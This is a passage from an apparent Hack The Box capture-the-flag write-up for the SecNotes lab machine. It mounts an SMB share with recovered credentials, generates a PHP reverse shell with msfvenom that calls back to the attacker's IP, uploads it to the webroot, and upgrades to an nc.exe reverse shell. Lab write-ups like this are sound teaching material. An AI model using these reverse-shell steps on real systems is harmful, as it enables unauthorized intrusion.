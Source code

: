 It's the credentials that's interesting!


{% include image.html image_alt="4171ae04.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/4171ae04.png" %}


Armed with this new information, we can mount the file share.

### New Site

We can mount the file share with `mount` of course.

```
# mount -t cifs -o username=tyler,password='92g!mA8BGjOirkL%OG*&',uid=0,gid=0 //10.10.10.97/new-site /mnt/secnotes/new-site
```

What do we have here?


{% include image.html image_alt="2a831a0b.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/2a831a0b.png" %}


Appears to be the `wwwroot` of the other `http` service: `8808/tcp`. And since the site is running PHP, let's copy a reverse shell written in PHP over to the new site. We can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p php/reverse_php LHOST=10.10.12.9 LPORT=1234 -o rev.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3004 bytes
Saved as: rev.php
```

Visit http://10.10.10.97:8808/rev.php.


{% include image.html image_alt="df14467b.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/df14467b.png" %}


Meanwhile at my `nc` listener...


{% include image.html image_alt="be9c59ae.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/be9c59ae.png" %}


Awesome, but the reverse shell is pretty unstable. We need a resilient shell to conduct further enumeration.

Let's transfer a `nc` for Windows over. If you are using Kali Linux, it's at `/usr/share/windows-binaries/nc.exe`.

Now, once the PHP reverse shell connects back, launch `nc.exe` to connect back to me at a different port, say `4321/tcp`.


{% include image.html image_alt="8b9c4675.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/8b9c4675.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/151
[2]: https://www.hackthebox.eu/home/users/profile/4935
[3]: https://www.hackthebox.eu/